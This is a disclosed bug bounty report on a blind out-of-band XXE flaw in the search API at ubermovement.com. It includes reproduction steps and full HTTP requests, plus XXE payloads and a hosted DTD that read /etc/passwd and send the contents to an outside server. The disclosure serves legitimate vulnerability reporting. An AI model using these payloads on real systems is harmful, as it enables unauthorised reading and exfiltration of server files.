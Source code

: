 # Blind OOB XXE At "http://ubermovement.com/"

## Report Details
- **Report ID**: 154096
- **URL**: https://hackerone.com/reports/154096
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-26T16:12:25.847Z
- **Disclosed**: 2016-08-08T02:35:12.681Z

## Reporter
- **Username**: raghav_bisht
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Test Summary :
-
POST data was set to <?xml version="1.0" encoding="utf-8"?> <!DOCTYPE dtgmlf6 [ <!ENTITY dtgmlf6ent SYSTEM "http://122.180.248.81/"> ]> <GeneralSearch>&dtgmlf6ent;</GeneralSearch> 

An HTTP request was initiated for the domain http://122.180.248.81/ which indicates that this script is vulnerable to XXE injection.

NOTE : As it was Blind XXE Test I was Successful in Ping Test for XXE. But unable to retrieve any sensitive information.   

HTTP request details: 
----------------------------
IP address: 8.36.86.67
User agent: Java/1.8.0_60

Vulnerable Domain :
-
http://ubermovement.com/

Vulnerable Link :
-
http://ubermovement.com/api/search/GeneralSearch

Vulnerable Parameter :
-
GeneralSearch

Steps To Reproduce :
-
1. Go to website : http://ubermovement.com/
2. Attach burp Suite & start intercepting now, click on search and search...
3. Grab the GET request
Eg. Original HTTP Request :
-
GET /api/search/GeneralSearch HTTP/1.1
Host: ubermovement.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

4. NOW,

Send request to repeater & change it to POST.

Eg. Original HTTP Request :
-
POST /api/search/GeneralSearch HTTP/1.1
Host: ubermovement.com
Content-Length: 173
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

5. Now Add content type :
Eg. Content-type: application/xml

Request will be:
-
POST /api/search/GeneralSearch HTTP/1.1
Content-type: application/xml
Host: ubermovement.com
Content-Length: 173
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

6. Deploy web server and host "payload.dtd" File eg :
payload.dtd :
-
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://xxe.me/content?%file;'>">
%all;


7. Now Add XXE Payload For confirmation :
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [ 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://122.180.248.81/payload23.dtd">
%dtd;]>
<GeneralSearch>&send;</GeneralSearch>

Request Will Be :
-
POST /api/search/GeneralSearch HTTP/1.1
Content-type: application/xml
Host: ubermovement.com
Content-Length: 214
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [ 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://122.180.248.81/payload.dtd">
%dtd;]>
<GeneralSearch>&send;</GeneralSearch>

NOTE : If you view your web server logs you will find a 404 error.

## Attachments
- payload.dtd.png
- dtd.JPG
- Ping_Test_Result.png
- Ping_Test.JPG
- XXE-1.JPG
- xxe--2.png
- xxe-3.png
